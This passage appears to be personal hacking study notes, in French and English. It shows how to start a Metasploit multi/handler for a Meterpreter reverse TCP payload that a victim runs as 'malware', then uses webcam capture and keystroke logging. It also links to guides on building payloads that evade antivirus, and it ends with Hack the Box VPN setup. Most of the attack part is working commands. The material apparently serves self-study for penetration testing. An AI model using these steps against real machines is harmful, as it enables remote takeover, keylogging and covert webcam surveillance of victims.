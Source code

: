 ```
#Before executing this file in the target computer, we need to start the multi-handler to listen for incoming connections
use mulit/handler #use permet de sélectionner un module à utiliser (back permet de sortir de ce module)
#A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.
#multi/handler : Ce module est un stub qui fournit toutes les fonctionnalités du système de charge utile Metasploit aux exploits qui ont été lancés en dehors du framework
```

```
set PAYLOAD windows/meterpreter/reverse_tcp #meme payload que vous avez utilisé pour créer le malware
set LHOST 192.168.174.129
set LPORT 4444
exploit #ou run c la meme chose
#Quand la victime lance ce programme, vous allez voir que Metasploit et Meterpreter s’ouvriront
```
```
webcam_snap
start keyscan_start
keyscan_stop
```

```
top #voir tous les running processus en direct
pgrep -lf python #voir les scripts python qui tournent
kill -9 <pid> #kill le processus
```

[msfvenom tutorial with different payloads exemples](https://www.hackingarticles.in/msfvenom-tutorials-beginners/)

Payloads encoded with Base64, easily detected by antivirus, https://null-byte.wonderhowto.com/how-to/hacking-macos-create-undetectable-payload-0189715/
Payloads connus parce que classiques sur metasploit. --> Encrypting Better Than Encoding. Par exemple avec Armor voir tuto en dessous
[Video tuto Create Undetectable Payloads for macOS Computers with Tokyoneon's Armor](https://www.youtube.com/watch?v=qgroUbiuNTU&t=1s)


#### Denial-of-Service, Session Hijacking, SQL injection ..

# IV - Hack the Box
### Installation
Se connecter au VPN [tuto](https://www.youtube.com/watch?v=msCWpKegNlc)

```
sudo apt-get install network-manager-openvpn
sudo openvpn --config /path/to/file.ovpn
# initialization sequence completed = OK
```
